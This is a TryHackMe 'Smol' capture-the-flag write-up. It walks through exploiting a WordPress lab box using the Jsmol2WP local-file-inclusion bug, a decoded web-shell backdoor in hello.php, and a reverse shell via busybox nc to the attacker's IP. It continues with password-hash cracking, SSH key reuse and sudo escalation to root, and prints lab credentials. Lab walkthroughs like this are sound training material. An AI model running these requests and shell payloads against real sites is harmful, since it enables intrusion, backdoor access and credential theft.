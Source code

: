 # TryHackMe - Smol Writeup

## **Phase 1 – Reconnaissance**

First, I ensured that the target hostname resolved correctly by updating my local `/etc/hosts` file:

```bash
echo "10.10.18.159 www.smol.thm smol.thm" | sudo tee -a /etc/hosts
```

With that configured, I performed an initial Nmap scan to identify open services and their versions:

```bash
nmap -sC -sV -Pn -T4 -oN smol.nmap www.smol.thm
```

### **Findings:**

- The target runs a web server hosting a WordPress site.
    
- No other significant ports/services were open at this stage.
    

---

## **Phase 2 – Enumeration**

Since the site was WordPress-based, I used `wpscan` to enumerate plugins, themes, and users:

```bash
wpscan --url http://www.smol.thm
```

### **Findings:**

- A vulnerable plugin was discovered: **Jsmol2WP**.
    
- Vulnerability identified: **CVE-2018-20463** — a Local File Inclusion (LFI) vulnerability within the Jsmol2WP plugin.
    
- Valid WordPress credentials were discovered for the user `wpuser`:
    
    ```
    Username: wpuser  
    Password: kbLSF2Vop#lw3rjDZ629*Z%G
    ```
    

A proof-of-concept for the vulnerability was available on GitHub:  
[PoC Link](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt)

---

## **Phase 3 – Exploitation**

Using the discovered credentials, I logged into the WordPress admin panel. While exploring the plugin section, I observed that the **Hello Dolly** plugin was present — commonly installed by default with WordPress.

To exploit the LFI vulnerability, I accessed the `jsmol.php` endpoint of the vulnerable plugin, using PHP filters to view the source code of plugin files. One critical request was:

```http
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

This revealed obfuscated PHP code in the plugin using `eval(base64_decode(...))`. After decoding, I discovered a dangerous **web shell backdoor**:

```php
if (isset($_GET["\143\155\x64"])) {
    system($_GET["\143\x6d\144"]);
}
```

This means the plugin would execute any command passed via the `cmd` (encoded) GET parameter. With this in mind, I issued a reverse shell payload:

On my local machine:

```bash
nc -lnvp 4444
```

On the target (via the browser):

```http
http://www.smol.thm/wp-content/plugins/hello.php?cmd=busybox nc 10.21.156.95 4444 -e bash
```

Once the reverse shell connected, I stabilized it:

```bash
script -qc /bin/bash /dev/null
export TERM=xterm
```

---

## **Phase 4 – Post-Exploitation and Privilege Escalation**

### **1. WordPress Database Access and Password Cracking**

Inside the shell, I accessed the WordPress MySQL database:

```bash
mysql -u wpuser -p
# Enter password: kbLSF2Vop#lw3rjDZ629*Z%G
```

I enumerated the users and extracted password hashes:

```sql
SHOW DATABASES;
USE wordpress;
SHOW TABLES;
SELECT user_login, user_pass FROM wp_users;
```

I saved the hash data into a file in the format `user:hash`, then used **John the Ripper** to crack them:

```bash
john --format=wpap --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Eventually, I retrieved a plaintext password:

```text
diego : sandiegocalifornia
```

Using this password on the shell:

```bash
su diego
```

I switched to the user `diego` and found the first user flag in `/home/diego`.

---

### **2. SSH Key Reuse for Lateral Movement**

While exploring accessible files, I noticed that Diego had read access to another user’s SSH private key:

```bash
ls -l /home/think/.ssh/id_rsa
```

I copied the key, saved it on my local machine as `id_think`, and restricted permissions:

```bash
chmod 600 id_think
ssh -i id_think think@www.smol.thm
```

I successfully authenticated as **think** via SSH.

---

### **3. Accessing Another User via File Cracking**

While browsing Think’s home directory, I found a zip file:

```bash
wordpress.old.zip
```

Lacking the password to unzip it directly on the box, I downloaded it to my local machine by hosting a Python server:

On the remote box:

```bash
python3 -m http.server 80
```

On my local machine:

```bash
wget http://www.smol.thm/wordpress.old.zip
```

I then extracted the hash using `zip2john`:

```bash
zip2john wordpress.old.zip > wp_hash
john wp_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

This gave me the password to unzip the archive. Inside, I located a `wp-config.php` file containing credentials for another user:

```
Username: xavi
Password: P@ssw0rdxavi@
```

---

### **4. Final Privilege Escalation to Root**

Back on the shell:

```bash
su xavi
```

I verified Xavi’s `sudo` permissions:

```bash
sudo -l
```

Xavi had permissions to run `bash` as root:

```bash
sudo bash
```

This dropped me into a root shell. From there, I accessed the final flag:

```bash
cat /root/root.txt
```
